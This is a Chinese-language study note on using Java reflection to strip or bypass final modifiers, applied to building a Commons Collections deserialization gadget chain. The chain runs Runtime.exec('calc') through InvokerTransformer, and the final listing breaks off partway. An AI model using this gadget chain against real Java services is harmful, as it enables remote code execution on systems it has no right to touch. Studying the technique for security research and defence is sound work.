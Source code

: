 

### 修改final字段的几种情况

* static final（内联优化）

已经内联的常量不会更改，意思就是你改了不会报错，但你也改不了

* final初始化时就赋值

比如`private final String finalField = "Initial value";`

这种需要去掉final修饰符再修改。加上修改访问权限，固定的代码如下：

```java
		Field finalField = Example.class.getDeclaredField("finalField");
        // 取消字段的访问权限检查
        finalField.setAccessible(true);		
		Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(finalField, finalField.getModifiers() & ~Modifier.FINAL);
		finalField.set(....)
```

* final初始化仅声明，不赋值

如`private final String finalField;`，在某些函数里赋值。

这种不用去掉final修饰符也能修改。仅需修改访问权限。当然也能去掉后修改



所以这里在put后修改factory可以用两种代码

```java
//直接修改
		hashMap.put(tiedMapEntry, "test");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);
```

```java
//去掉final再修改
		hashMap.put(tiedMapEntry, "test");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
```



目前完整的代码是：

```java
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
```